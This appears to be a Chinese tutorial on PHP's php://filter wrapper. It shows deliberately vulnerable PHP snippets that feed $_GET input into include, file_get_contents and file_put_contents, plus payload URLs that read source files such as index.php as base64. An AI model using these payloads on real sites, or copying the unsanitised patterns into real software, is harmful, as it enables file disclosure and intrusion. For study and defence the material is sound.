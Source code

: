 ```
resource=<要过滤的数据流>     这个参数是必须的,它指定了你要筛选过滤的数据流
read=<读链的筛选列表>         该参数可选,可以设定一个或多个过滤器名称,以管道符(|)分隔
write=<写链的筛选列表>    该参数可选,可以设定一个或多个过滤器名称,以管道符(|)分隔
<；两个链的筛选列表>        任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链
```

可以运用多种过滤器(字符串/转换/压缩/加密)

例如平时我们用来任意文件读取的payload`php://filter/read=convert.base64-encode/resource=upload.php`

这里读的过滤器为`convert.base64-encode`,就和字面上的意思一样,把输入流`base64-encode`,`resource=upload.php`,代表读取upload.php的内容

这样就可以以base64编码的方式读取文件源代码

[过滤器](https://www.php.net/manual/zh/filters.php)

```php
<?php  
$filename=$_GET["a"];  
$data="ASDF";
file_put_contents($filename, $data);  
?>
```

`http://localhost:32989/?a=php://filter/write=string.tolower/resource=test.txt`

test.txt:`asdf`

---

```php
<?php  
$filename=$_GET["a"];  
echo file_get_contents($filename);  
?>
```

`file_get_contents()`的`$filename`参数不仅仅为文件路径,还可以是一个URL(伪协议)

`http://localhost:32989/?a=php://filter/read=convert.base64-encode/resource=index.php`

index.php的内容以base64编码的方式显示出来

---

```php
<?php  
$filename=$_GET['a'];
include("$filename");
?>
```

`http://localhost:32989/?a=php://filter/read=convert.base64-encode/resource=index.php`

`http://localhost:32989/?a=php://filter/convert.base64-encode/resource=index.php`

同样可以把test.php的内容以base64编码的方式显示出来

双引号包含的变量`$filename`会被当作正常变量执行,而单引号包含的变量则会被当作字符串执行
